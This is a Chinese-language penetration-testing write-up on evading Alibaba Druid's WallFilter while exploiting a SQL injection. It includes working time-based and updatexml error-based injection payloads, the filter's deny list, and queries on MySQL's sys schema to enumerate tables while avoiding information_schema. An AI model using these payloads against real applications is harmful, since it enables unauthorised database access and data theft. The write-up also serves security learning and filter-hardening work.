






## 简介
> 之前挖洞的时候遇到了一个 SQL 注入，测试时可以看到回显的 SQL 语句，但是一直被拦截，搜索了下发现是 WallFilter

WallFilter是阿里巴巴的[数据库连接池Druid](https://github.com/alibaba/druid)中一个特殊的 Filter，主要功能是用于监控SQL安全，并基于SQL语法进行分析，理解其中的 SQL 语义，然后作出智能准确的处理，从而避免 SQL 注入。

## 拦截1
首次尝试注入，Payload 如下：

```sql
desc,(select/**/*/**/from/**/(select(sleep(5)))a)#

```

抛出异常：`sql injection violation, comment not allow`




原因是 WallFilter 的默认拦截策略是**不允许 SQL 中带有注释**，而这里的 Payload 明显含有注释，因此被拦截。参考：[alibaba/druid - WallFilter拦截规则](https://github.com/alibaba/druid/wiki/WallFilter-%E6%8B%A6%E6%88%AA%E8%A7%84%E5%88%99)

## 拦截2
再次尝试注入，修改后的 Payload 如下：

```sql
and(updatexml(1,concat(0x7e,(select database())),0));

and(updatexml(1,concat(0x7e,(select user())),0))

```

这次的报错为：`sql injection violation, syntax error`





原因是默认配置下，WallFilter 拦截了如下函数和关键字：

- [Druid拦截功能的配置与简单绕过](https://mp.weixin.qq.com/s/lGalf63VXCva2I5BpmSMgQ)
- [alibaba/druid/wall](https://github.com/alibaba/druid/tree/master/src/main/resources/META-INF/druid/wall)

```basic
deny-function:
  version
  load_file
  database
  schema
  user
  system_user
  session_user
  benchmark
  current_user
  sleep
  xmltype
  receive_message

deny-schema:
  information_schema
  mysql
  performance_schema    

deny-variant:
  basedir
  version_compile_os
  version
  datadir

```

## 其它查询
尝试查询其它的变量

```sql
SHOW GLOBAL VARIABLES;               # 查看全局变量
SHOW GLOBAL VARIABLES like '%xxx%';  # 模糊查询全局变量
SELECT @@global.变量名;               # 查看指定全局变量的值

SHOW VARIABLES;                      # 查看用户变量
SHOW VARIABLES like '%xxx%';         # 模糊查询用户变量
SELECT @@变量名;                      # 查看指定用户变量的值

```
这里查几个变量，发现可以成功查询，Payload如下：

```sql
and(updatexml(1,concat(0x7e,(select current_user)),0))
and(updatexml(1,concat(0x7e,(select @@plugin_dir)),0))

```





## 尝试绕过
前面得知禁用了`information_schema`，这里利用`MySQL5.6+`的`sys`系统库中的某些表来尝试绕过。

- [mysql注入绕过information_schema过滤](https://blog.csdn.net/m0_49835838/article/details/109159839)
- [SQL注入-查表查列](https://blog.csdn.net/soldi_er/article/details/116901009)
- [Bugku sql注入 基于布尔的SQL盲注](https://blog.csdn.net/plant1234/article/details/118033711)

```sql
mysql> use sys
mysql> show tables

# 默认sys库中，保存库名和表名的信息的表
sys.schema_table_statistics_with_buffer
sys.schema_index_statistics
sys.schema_table_statistics
sys.schema_auto_increment_columns 
sys.x$schema_index_statistics
sys.x$schema_table_statistics
sys.x$schema_table_statistics_with_buffer

# 示例查询,其中table_schema为库名, table_name为表名
mysql> select table_schema, table_name from sys.schema_table_statistics_with_buffer;

# 其它目前可记录的表
mysql> select * from sys.version;
mysql> select object_schema from sys.innodb_buffer_stats_by_schema;
mysql> select object_schema, object_name from sys.innodb_buffer_stats_by_table;

# MySQL默认存储引擎innoDB携带的表, 两表均有database_name和table_name字段
mysql.innodb_table_stats
mysql.innodb_index_stats


```
测试之后发现报错：`SELECT command denied ...`，原因是**当前用户权限不足**所导致。如果数据库当前用户为`root`或者其它具有对应权限的用户时，利用这个办法进行绕过是可行的


